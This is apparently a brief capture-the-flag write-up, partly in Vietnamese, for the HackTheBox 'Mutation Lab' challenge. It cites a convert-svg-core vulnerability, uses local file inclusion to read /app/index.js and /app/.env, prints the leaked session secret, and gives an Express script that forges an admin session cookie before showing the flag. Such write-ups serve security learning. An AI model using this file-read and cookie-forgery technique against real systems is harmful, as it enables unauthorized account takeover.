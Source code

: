 # Mutation Lab

[Vul](https://security.snyk.io/vuln/SNYK-JS-CONVERTSVGCORE-1582785) ở package `convert-svg-core` của serrer.


LFI với path: `/app/index.js` và `/app/.env` lấy thông tin về file index và environment variable.

`SESSION_SECRET_KEY=5921719c3037662e94250307ec5ed1db`

sau đó forge the session cookie và lấy flag

script:
```js
const express = require('express');
const session = require('cookie-session');

const app = express();
const cookieParser = require('cookie-parser');

app.use(express.json({ limit: '2mb' }))
app.use(cookieParser())

app.use(session({
    name: 'session',
    keys: (['5921719c3037662e94250307ec5ed1db'])
}))

app.get('/', (req, res) => {
    req.session = { "username": "admin" }
    res.send('haha')
})

app.listen(3333)
```

**HTB{fr4m3d_th3_s3cr37s_f0rg3d_th3_entrY}**


